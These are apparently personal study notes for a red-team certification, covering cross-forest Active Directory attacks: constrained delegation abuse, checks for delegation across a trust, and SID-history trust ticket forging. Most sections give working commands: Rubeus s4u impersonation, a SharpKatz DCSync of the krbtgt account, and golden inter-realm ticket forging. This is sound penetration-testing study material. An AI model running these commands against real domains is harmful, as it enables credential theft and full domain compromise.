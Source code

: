 ## Constrained Delegation

Can abuse constrained delegation across forests if you already have a foothold across a forest trust.

```powershell
# PowerView 
Get-DomainUser -TrustedToAuth -Domain target_forest.local
Get-DomainComputer -TrustedToAuth -Domain target_forest.local

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server target_forest.local

# Get creds for compromised user and request ldap altservice
./Rubeus.exe s4u /user:<OWNED_USER> /aes256:<OWNED_USER_HASH> /impersonateuser:administrator /msdsspn:CIFS/some_machine.other_forest.local
/altservice:LDAP /domain:other_forest.local /dc:some-dc.other_forest.local /ptt

# DCSync
./SharpKatz.exe --Command dcsync --user other_forest\krbtgt --Domain other_forest.local --DomainController some-dc.other_forest.local
```

- note that use of AES256 may not work across forests as it depends on whether or not AES encryption is supported

![Untitled](CRTE%20Notes%20d90ebe33f6774189b29f11b6f3b0175b/Untitled%202.png)

## Unconstrained Delegation

- TGT delegation must be enabled across trust (disabled by default)
    - check this with `netdom trust trustingforest /domain:other_forest.local /EnableTgtDelegation`
    - note this can also be checked with `Get-ADTrust -server other_forest.local -Filter *` although it could output false negatives and is less reliable in older versions (ensure you are using the right version of the AD Module which fixes this bug)

## Trust Key

- SID Filtering occurs between forests so that one forest cannot request any resource as an EA or DA for another forest
    - to access resources in trusting domain, SID filtering must be deactivated
- all RIDs between and including 500 and 1000 are stripped (check CRTP notes for more in-depth)
- with `/enablesidhistory:yes` you can attempt to access resources accessible to the specified RID as long as RID > 1000
- if `Get-ADTrust -Filter *` shows that the `SIDFilteringForestAware` attribute is True, then SIDHistory filtering is enabled across the forest trust

********************Getting Access to Other Groups******************** 

```powershell
# Get groups in other_forest.local with RID > 1000
Get-ADGroup -Filter 'SID -ge "S-1-5-21-<ID>-1000"' -Server other_forest.local

# Forge inter-realm TGT using group
./BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:0xd4y.local /sid:S-1-5-21-<ID> /rc4:<TRUST_TICKET_HASH> /service:krbtgt /target:other_forest.local /sids:S-1-5-21-<ID>-<RID> /ticket:C:\PATH\TO\SAVE\output.kirbi" "exit"

# Get TGS for service
./Rubeus.exe asktgs /ticket:C:\PATH\TO\output.kirbi /service:HTTP/some_machine.other_forest.local /dc:some-dc.other_forest.local /ptt

```
